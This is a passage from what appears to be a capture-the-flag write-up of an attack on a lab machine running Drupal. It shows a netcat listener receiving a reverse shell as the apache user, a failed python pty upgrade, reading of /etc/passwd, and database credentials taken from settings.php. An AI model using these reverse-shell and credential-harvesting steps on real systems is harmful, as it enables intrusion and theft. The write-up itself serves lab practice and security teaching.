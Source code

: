 From here, intercepted the request with Burp, sent it to repeater, changed it to a POST request, and started trying a bunch of shells... Many shells! After exhausting my list, I took a break and thought about it.

- The Meterpreter shell worked
- None of my reverse shells worked
- Try another port!

As soon as I changed from port `9001` to a different port, in this case, `4444`... I got a shell!

```none
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.233] 33790
bash: no job control in this shell
bash-4.2$ id
id
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
```

## Privesc: `apache` to `brucetherealadmin`

After all the effort to find and fix an exploit - I was rewarded with a very low privilege shell. I couldn't even run `curl` to download linpeas. Very sad! What's even worse, I cannot get a decent PTY.

```none
bash-4.2$ which python
which python
/usr/bin/python
bash-4.2$ python -c 'import pty;pty.spawn("/bin/bash")'    
python -c 'import pty;pty.spawn("/bin/bash")'
Traceback (most recent call last):
  File "<string>", line 1, in <module>
  File "/usr/lib64/python2.7/pty.py", line 165, in spawn
    pid, master_fd = fork()
  File "/usr/lib64/python2.7/pty.py", line 107, in fork
    master_fd, slave_fd = openpty()
  File "/usr/lib64/python2.7/pty.py", line 29, in openpty
    master_fd, slave_name = _open_terminal()
  File "/usr/lib64/python2.7/pty.py", line 70, in _open_terminal
    raise os.error, 'out of pty devices'
OSError: out of pty devices
```

Anyway, I started to poke around the system looking for more information. I quickly found the `brucetherealadmin` user in `/etc/passwd` and the `/home` directory. Then I found the database creds in the `settings.php` file for the Drupal install.

```none
array (
    'database' => 'drupal',
    'username' => 'drupaluser',
    'password' => 'CQHEy@9M*m23gBVj',
    'host' => 'localhost',
    'port' => '',
    'driver' => 'mysql',
    'prefix' => '',
),
```
